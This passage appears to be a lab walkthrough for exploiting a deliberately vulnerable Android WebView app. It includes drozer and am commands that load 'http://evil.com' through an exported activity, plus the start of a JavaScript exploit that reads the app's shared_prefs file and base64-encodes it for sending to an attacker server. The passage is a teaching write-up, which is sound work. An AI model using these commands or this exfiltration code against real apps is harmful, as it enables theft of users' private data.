 ## Exploitation



Now rto exploit such bugs we need to try it first wioth adb&#x20;

our goal is to expoloit the exported activity and send i ntent extra with our malicoijhus diomain&#x20;

{% code overflow="wrap" %}
```bash
# using drozer 
dz> run app.activity.start --component com.tmh.vulnwebview com.tmh.vulnwebview.SupportWebView --extra string support_url "http://evil.com"
# using am 
am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "http://evil.com"              
```
{% endcode %}

and for registarationWebview

Another setting that the developer can configure is allowing JavaScript running within the context of file scheme URL to access content from any origin including other file scheme URLs.

This setting removes all same origin policy restrictions & allows the webview to make requests to the web from the file which is normally not possible. i.e., Attacker can read local files using java script and send them across the web to a attacker controlled domain.

If the WebView is exported, this behavior can be very dangerous because it can allow the attacker to read arbitrary files which may be private to the application.

#### Exploit Explanation and JavaScript Code

The vulnerability in the `RegistrationWebView` activity arises due to the combination of two insecure settings:

1. **`setAllowUniversalAccessFromFileURLs(true)`**: This allows JavaScript running in the context of a file URL (e.g., `file:///`) to access content from any origin, including local files.
2. **Exported Activity**: The activity is exported, meaning it can be invoked by other apps or via ADB commands.

An attacker can exploit this by crafting a malicious HTML file with JavaScript that reads sensitive local files and exfiltrates the data to an attacker-controlled server.

***

#### Exploit JavaScript Code

Below is the JavaScript code that exploits the vulnerability by reading a local file and exfiltrating its contents to an attacker's server:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
  <script>
    // Target local file to read (e.g., shared preferences file)
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml';

    // Function to load and exfiltrate the file contents
    function load(url) {
        var xhr = new XMLHttpRequest(); // Create a new XMLHttpRequest object

        // Define the onreadystatechange event handler
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) { // Check if the request is complete
                // Encode the file contents in Base64
                var base64Content = btoa(xhr.responseText);

```